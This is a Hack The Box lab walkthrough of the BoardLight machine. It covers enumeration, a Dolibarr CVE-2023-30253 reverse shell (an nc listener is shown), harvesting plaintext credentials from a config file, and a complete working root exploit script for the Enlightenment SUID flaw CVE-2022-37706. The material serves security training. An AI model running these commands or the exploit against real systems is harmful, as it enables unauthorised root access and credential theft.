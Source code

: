 ```yaml
---
layout: single
title: Boardlight - Hack The Box
excerpt: "BoardLight is an easy difficulty Linux machine that features a `Dolibarr` instance vulnerable to [CVE-2023-30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253). This vulnerability is leveraged to gain access as `www-data`. After enumerating and dumping the web configuration file contents, plaintext credentials lead to `SSH` access to the machine. Enumerating the system, a `SUID` binary related to `enlightenment` is identified which is vulnerable to privilege escalation via [CVE-2022-37706]( https://nvd.nist.gov/vuln/detail/CVE-2022-37706) and can be abused to leverage a root shell."
date: 2025-05-09
classes: wide
header:
  teaser: /img2/boardlight.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Subdomain Enumeration
  - Dolibarr 17.0.0 Exploitation - CVE-2023-30253
  - Information Leakage (User Pivoting)
  - Enlightenment SUID Binary Exploitation [Privilege Escalation]
---
```



## Reconnaissance

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -Pn 10.10.11.11
```

- Add domain to local DNS

```bash
echo "10.10.11.11 board.htb" >> /etc/hosts
```

- Subdomain fuzzing with Gobuster

```bash
gobuster vhost -u http://board.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -t 20 --append-domain
```

![](/img2/Pasted%20image%2020250509120442.png)

- Add subdomain to local DNS

```bash
echo "10.10.11.11 crm.board.htb" >> /etc/hosts
```

## Exploitation

- Login with admin default password

![](/img2/Pasted%20image%2020250509120947.png)

- Test PHP bypass

![](/img2/Pasted%20image%2020250509123427.png)

![](/img2/Pasted%20image%2020250509123505.png)

- Send reverse shell

![](/img2/Pasted%20image%2020250509123836.png)

```bash
nc -nlvp 9000
```

## Post-exploitation

- Find conf files

```bash
find / -name \*conf\* 2>/dev/null | grep -vE "proc|sys|usr|etc|boot|lib|dpkg"
```

![](/img2/Pasted%20image%2020250509131617.png)

```bash
cat /var/www/html/crm.board.htb/htdocs/conf/conf.php
```

![](/img2/Pasted%20image%2020250509131928.png)

- Pivoting 

```bash
su larissa
```

- Find SUID 

```bash
find / -perm -4000 2>/dev/null
```

![](/img2/Pasted%20image%2020250509133609.png)

- Execute exploit

```bash
#!/bin/bash
echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```

```bash
chmod +x exploit.sh
./exploit.sh
```

![](/img2/Pasted%20image%2020250509133735.png)

![](/img2/Pasted%20image%2020250509133437.png)

